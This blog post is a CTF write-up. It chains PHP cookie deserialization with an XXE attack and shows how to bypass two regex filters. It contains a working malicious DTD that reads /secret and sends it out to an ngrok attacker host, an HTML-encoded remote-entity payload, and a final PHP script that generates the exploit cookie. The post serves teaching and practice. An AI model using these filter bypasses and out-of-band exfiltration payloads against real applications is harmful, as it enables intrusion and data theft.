 ```yaml
---
layout: default
title:  "DOUBLE WAFFL3"
date:   2022-03-08 12:47:20 -0500
categories: jekyll update
permalink: /bloghub/double-waffle/
---
```

## Introduction

In this challenge we will take advantage of PHP deserialization attack to send our XXE payload through HTTP Cookies, But first we have to Bypass 2 WAFS! let’s get started. 

### Code Analysis
**_index.php_** 
We can see below a new object is defined of type _XmlParserModel_ passing to it the _.env_ file, we will get back to this class later. The interesting part here is where the application defines a cookie of type _UserModel_, moving forward it serializes the cookie and sends it back to the user as shown below.
```php
new XmlParserModel(file_get_contents('.env'));

if (empty($_COOKIE['PHPSESSID']))
{
    $user = new UserModel;
    $user->username = substr(uniqid('guest_'), 0, 10);
    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($user)), 
        time()+60*60*24, 
        '/'
    );
}
```
Two different routes are defined within the application
**_index.php_** 
```php 
$router = new Router();

$router->new('GET', '/', fn($router) => $router->view('menu'));
$router->new('POST', '/api/order', 'OrderController@order');
```
**POST** requests to _/api/order_ route calls the _order(_) function from its  _OrderController.php_ module, let’s check it out.
**_OrderController.php_** 
```php 
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        $cookie = base64_decode($_COOKIE['PHPSESSID']);
        safe_object($cookie);
        $user = unserialize($cookie);
```
Now Let’s take a look into the _safe_object()_ function 
**_OrderController.php_** 
```php 
function safe_object($serialized_data)
{
    $matches = [];
    $num_matches = preg_match_all('/(^|;)O:\d+:"([^"]+)"/', $serialized_data, $matches);

    for ($i = 0; $i < $num_matches; $i++) {
        $methods = get_class_methods($matches[2][$i]);
        foreach ($methods as $method) {
            if (preg_match('/^__.*$/', $method) != 0) {
                die("Unsafe method: ${method}");
            }}}}
```
So what this function does briefly is that it takes the serialized payload and uses regex to search for the occurrences of `o:<some number>:"<class name>"`, extracts the class name, and calls **get_class_methods()** function to check for all functions of a class, iterates over them, if a PHP magic method such as **constructor**, **wakeup** .. etc is found, it will match the second regex, thus the application will call **die()** to end the application. 

Before trying to bypass the WAF, we have to build our PHP gadget, we have to find a useful class that uses any magic methods. 

**_XmlParserModel.php_**
```php 
 <?php
class XmlParserModel
{
    private string $data;
    private array $env;

    public function __construct($data)
    {
      
        $this->data = $data;
    }

    public function __wakeup()
    {
        if (preg_match_all("/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im", $this->data))
        {
            die('Unsafe XML');
        }
        $env = @simplexml_load_string($this->data, 'SimpleXMLElement', LIBXML_NOENT);

        if (!$env) 
        {
            die('Malformed XML');
        }

        foreach ($env as $key => $value)
        {
            $_ENV[$key] = (string)$value;
        }
    }

}
```
 
As we can see above, this class uses  **__wakeup()**, and uses regex again to check for malicious XXE payload, it filters the occurrence of **`<!ENTITY file SYSTEM "file:///path/to/file">`**. if a match is found, the application is suspended, else it will parse the XML.
### Building the exploit 
In order to build our exploit, we have to create a new serialized object of type **_XmlParserModel_** and set the **$data** to XXE payload that reads the flag, but first let’s bypass the **_safe_object()_**

### KILL WAF #1
Inspired from the [Composr CMS Remote Code Execution](https://github.com/MegadodoPublications/exploits/blob/master/composr.md), We can easily bypass the poor regex by defining an array object with a string of value **";O:2:"** at index 0, then passing our malicious object to the next index.
For example, In the payload below, the regex will match **;O:10**, as if it’s a class name, bypassing the **_get_class_methods()_**
```markdown 
// a:1:{s:5:";O:2:";O:10:"HelloWorld":0:{}};
//           ^           ^
// match   begin        end
```
### KILL WAF #2 
The XXE WAF can be bypassed through HTML encoding our malicious crafted entity, but to make things easier, we will exfiltrate data through an out-of-band OBB channel using HTTP by utilizing parameter entities, we will use **<!ENTITY % dtd SYSTEM "http://attackerserver.com/malc.dtd" >** to refer to a DTD defined and hosted on our remote server, and that’s for the purpose of bypassing the regex once only. 
We can now craft our payload and save it into a file, then host it. 

**_malc.dtd_** 
```xml 
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/secret">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://8cda-188-247-74-33.ngrok.io/bypass.xml?%data;'>">
%abt; 
``` 
Now creating our XXE payload, First let’s define our private entity to import the remote the DTD. 
```xml 
<!ENTITY % dtd SYSTEM "http://8cda-188-247-74-33.ngrok.io/malc.dtd" > 
``` 
HTML encoding is equivalent to:  
```markdown
&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;
&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;
&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;
&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;
&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;
&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;
&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;
&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;
```
Inject the entity into the DOCTYPE: 
```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;" >
  %a; 
  %dtd;
]>
<data><env>&exfil;</env></data>
``` 
 
## Final Exploit  
Our final exploit will look like  
```php 
  <?php

class XmlParserModel { 

	public function __construct($data)
    {	

    	$this->data = $data; 
    } 

}
$exploit = serialize([";O:2:" => new XmlParserModel('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;" >%a;%dtd;]><data><env>&exfil;</env></data>')]);
echo base64_encode($exploit); 
 
?>
``` 
